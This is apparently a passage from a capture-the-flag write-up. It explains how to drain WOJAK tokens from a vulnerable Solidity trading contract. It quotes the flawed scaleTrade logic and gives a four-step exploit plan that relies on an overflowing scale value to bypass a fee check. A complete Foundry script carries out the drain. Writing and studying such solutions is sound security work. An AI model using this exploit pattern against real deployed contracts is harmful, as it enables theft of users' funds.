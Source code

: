 ```solidity
trade.amountToSell = safeCast(safeMul(trade.amountToSell, scale));
trade.amountToBuy = safeCast(safeMul(trade.amountToBuy, scale));
uint256 newAmountNeededWithFee = safeCast(
    safeMul(originalAmountToSell, scale) + fee
);
if (originalAmountToSell < newAmountNeededWithFee) {
    require(
        IERC20(trade.tokenToSell).transferFrom(
            msg.sender,
            address(this),
            newAmountNeededWithFee - originalAmountToSell
        ),
        "Transfer failed"
    );
}
```

However, we cannot directly manipulate the existing `trade` because our address is not the maker:

```solidity
require(msg.sender == trades[_tradeId].maker, "Only maker can scale");
```

Thus, we must create a new trade and attempt to drain all `WOJAK` tokens. The new trade must use `WOJAK` as the sell token because we want it to transfer `WOJAK` tokens out when calling `settleTrade`. Combined with the first issue, we can first obtain a small amount of `WOJAK` tokens from the contract, then create a new trade with `WOJAK` as the sell token.

The complete exploit strategy is as follows:

1. Drain 32 wei of `WOJAK` tokens from the contract with 4 calls to `settleTrade`.
2. Create a new trade with 32 wei of `WOJAK` as the sell token and any token as the buy token. The contract will record `amountToSell` as `32 - fee`, which is `2`.
3. Scale the trade with `scale = ((1 << 112) - 30) / 2` to make `tokenToSell` a large value, thereby bypassing the `originalAmountToSell < newAmountNeededWithFee` condition.
4. Settle the trade with `_amountToSettle = 10 ether`, which will transfer `10 ether` of `WOJAK` tokens to the contract.

Script:

```solidity
function run() public {
    vm.startBroadcast();

    t.settleTrade(0, 9);
    t.settleTrade(0, 9);
    t.settleTrade(0, 9);
    t.settleTrade(0, 5);
    SimpleERC20 weth2 = new SimpleERC20(
        "Wrapped Ether 2",
        "WETH2",
        18,
        10 ether
    );
    wojak.approve(address(t), 100);
    t.createTrade(address(wojak), address(weth2), 32, 0);
    t.scaleTrade(1, ((1 << 112) - 30) / 2);
    t.settleTrade(1, 10 ether);
    console.log("balance of wojak", wojak.balanceOf(user));
    wojak.transfer(address(0xc0ffee), 10 ether);
    vm.stopBroadcast();
}
```
